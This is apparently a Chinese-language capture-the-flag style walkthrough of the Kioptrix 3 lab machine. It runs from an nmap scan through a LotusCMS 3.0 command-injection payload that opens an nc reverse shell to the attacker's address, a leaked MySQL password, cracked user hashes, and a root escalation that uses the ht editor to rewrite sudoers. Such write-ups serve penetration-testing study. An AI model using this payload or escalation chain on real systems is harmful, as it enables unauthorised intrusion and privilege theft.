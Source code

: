 ### 信息收集
nmap 扫描目标开放22和80端口
### web渗透
主页显示信息是关于一个画廊cms，跳转至登录页面，信息显示是lotusCMS
#### 公开漏洞利用
google 搜索lotusCMS 发现3.0存在远程命令执行漏洞
```
');#{stub}#
在/index?page=index url下可以执行命令
报告提示将参数post提交，我们将命令写入文件，curl看看能不能执行

curl http://192.168.1.17/index.php -d @a.txt

a.txt:
page=index');${system("nc -e /bin/bash 192.168.1.3 4444")};#

本地开启监听，获得shell
```
### 提权
```
find 可执行文件和s位文件均无发现
也没有定时任务
最后查看敏感文件，在/home/www/kioptrix3.com/gallery下发现gconfig.php
文件暴露mysql root密码：fuckeyou
```
#### 数据库查询user，passwd
```
查看gallery 数据库
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+

john破解loneferret:starwars为可登录用户

ssh loneferret@192.168.1.17 -o HostKeyAlgorithms=+ssh-rsa -o HostKeyAlgorithms=+ssh-dss
连接成功
```
#### ht提权
```
sudo -l 
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
发现ht有root权限
ht是一个编辑器
我们利用ht在sudoers写入/bin/bash
sudo /bin/bash 提权成功

```